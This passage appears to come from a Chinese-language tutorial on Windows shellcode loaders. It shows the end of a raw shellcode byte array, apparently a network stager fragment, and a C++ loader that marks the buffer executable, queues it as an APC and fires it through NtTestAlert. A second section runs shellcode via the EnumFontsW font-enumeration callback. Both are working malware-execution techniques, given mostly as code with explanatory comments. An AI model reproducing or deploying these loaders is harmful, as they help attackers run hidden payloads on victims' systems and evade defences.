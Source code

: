```cpp
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

void ApcLoader() {
    // 修改 shellcode 所在内存区域的保护属性，允许执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    /*
    获取NtTestAlert函数地址, 因为它是一个内部函数.无法直接通过函数名调用
    这个函数用于检查当前线程的 APC（Asynchronous Procedure Call，异步过程调用）队列，如
    果队列中有挂起的用户模式 APC 请求，NtTestAlert 将触发它们的执行
    */
    pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    QueueUserAPC((PAPCFUNC)(PTHREAD_START_ROUTINE)(LPVOID)shellcode, GetCurrentThread(), NULL);

    //调用NtTestAlert，触发 APC 队列中的任务执行（即执行 shellcode）
    NtTestAlert();
}


void main() {
    ApcLoader();
}
```



# 7.基于回调函数

## EnumFontsW

这段代码的关键在于它使用 `EnumFontsW` 函数的回调机制来执行 shellcode。当 `EnumFontsW` 函数遍历到一个字体时，它将调用 shellcode 作为回调函数来处理字体信息。由于回调函数直接指向 shellcode，这样可以间接地加载并执行 shellcode

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    /*
    * EnumFontsW是Windows API，用于枚举系统中所有可用字体
    * 参数1：设备环境句柄，表示要枚举哪个设备的字体
    * 参数2：NULL表示枚举所有字体
    * 参数3：回调函数指针，用于处理每个枚举到的字体信息
    * 参数4：回调函数参数
    */
    EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)p, NULL); //回调函数

}

```
